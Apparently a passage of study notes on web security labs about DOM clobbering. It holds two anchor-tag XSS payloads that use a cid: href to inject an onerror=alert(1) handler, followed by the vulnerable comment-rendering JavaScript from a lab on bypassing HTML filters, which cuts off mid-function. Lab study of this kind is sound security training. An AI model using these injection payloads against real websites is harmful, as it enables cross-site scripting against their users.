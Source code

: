 ```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:canbeanythinginbetweenherebutmusthavecidcollonbeforeittotriggeronerror&quot;onerror=&quot;alert(1)//everythingaftermeincludingmeisignored">

<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:canbeanythinginbetweenherebutmusthavecidcollonbeforeittotriggeronerror&quot;onerror=&quot;alert(1)">
```

### Lab: Clobbering DOM attributes to bypass HTML filters

```
function loadComments(postCommentPath) {
    let xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            let comments = JSON.parse(this.responseText);
            displayComments(comments);
        }
    };
    xhr.open("GET", postCommentPath + window.location.search);
    xhr.send();
    let janitor = new HTMLJanitor({tags: {input:{name:true,type:true,value:true},form:{id:true},i:{},b:{},p:{}}});

    function displayComments(comments) {
        let userComments = document.getElementById("user-comments");

        for (let i = 0; i < comments.length; ++i)
        {
            comment = comments[i];
            let commentSection = document.createElement("section");
            commentSection.setAttribute("class", "comment");

            let firstPElement = document.createElement("p");

            let avatarImgElement = document.createElement("img");
            avatarImgElement.setAttribute("class", "avatar");
            avatarImgElement.setAttribute("src", comment.avatar ? comment.avatar : "/resources/images/avatarDefault.svg");

            if (comment.author) {
                if (comment.website) {
                    let websiteElement = document.createElement("a");
                    websiteElement.setAttribute("id", "author");
                    websiteElement.setAttribute("href", comment.website);
                    firstPElement.appendChild(websiteElement)
                }

                let newInnerHtml = firstPElement.innerHTML + janitor.clean(comment.author)
                firstPElement.innerHTML = newInnerHtml
            }

            if (comment.date) {
                let dateObj = new Date(comment.date)
                let month = '' + (dateObj.getMonth() + 1);
                let day = '' + dateObj.getDate();
                let year = dateObj.getFullYear();

                if (month.length < 2)
                    month = '0' + month;
                if (day.length < 2)
                    day = '0' + day;

```